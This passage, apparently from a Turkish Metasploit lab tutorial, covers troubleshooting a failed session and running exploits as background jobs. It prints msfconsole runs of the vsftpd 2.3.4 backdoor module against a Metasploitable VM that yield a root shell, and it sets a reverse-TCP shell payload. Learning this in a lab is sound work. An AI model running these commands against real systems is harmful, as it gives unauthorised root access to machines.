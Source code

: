 ### “Exploit Completed but No Session Was Created” Hatası
Bu hata, exploit’in çalıştığı ama oturum açılamadığı anlamına gelir. Nedenleri ve çözümleri:
- **Yanlış IP veya Port:** `RHOSTS` ve `RPORT` doğru mu? Kontrol edin:
  ```bash
  show options
  ```
- **Payload Uyumsuzluğu:** Hedef sistemle uyumlu bir payload seçin. Örnek:
  ```bash
  set PAYLOAD generic/shell_reverse_tcp
  ```
- **Ağ Sorunları:** Her iki makinenin (Kali ve Metasploitable) aynı ağda olduğundan emin olun. NAT ağı kullanılıyorsa, VMware ayarlarında “NAT Network” seçili olmalı.[](https://sibermetin.com/metasploitable-makine-coezuemue)
- **Zafiyet Kapalı Olabilir:** Nmap ile portun hala açık olduğunu doğrulayın.

**Örnek Terminal Çıktısı (Başarılı Exploit):**
```scss
┌──(kali㉿kali)-[~]
└─$ msfconsole
[*] Starting the Metasploit Framework console...
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.0.2.4
RHOSTS => 10.0.2.4
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
RPORT => 21
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] Command shell session 1 opened (192.168.1.26:46385 -> 10.0.2.4:6200)
whoami
root
```

## 7. Exploit -j ve Exploit -j -z Komutları
Metasploit’te `exploit -j` ve `exploit -j -z` komutları, exploit işlemlerini arka planda çalıştırmak için kullanılır:
- **exploit -j:** Exploit’i arka planda çalıştırır (job). Oturum açılırsa, `sessions` komutuyla erişebilirsiniz:
  ```bash
  sessions -i 1
  ```
- **exploit -j -z:** Exploit’i arka planda çalıştırır ve oturum açıldığında otomatik olarak bağlanmaz. Sessiz modda çalışır, manuel kontrol gerekir.

**Örnek Kullanım:**
```bash
exploit -j
```
**Çıktı:**
```scss
[*] Exploit running as background job 0.
```
Sonra:
```bash
sessions
```
**Çıktı:**
```scss
Active sessions
==============
  Id  Type                   Information
  --  ----                   -----------
  1   shell unix             vsftpd_234_backdoor
```
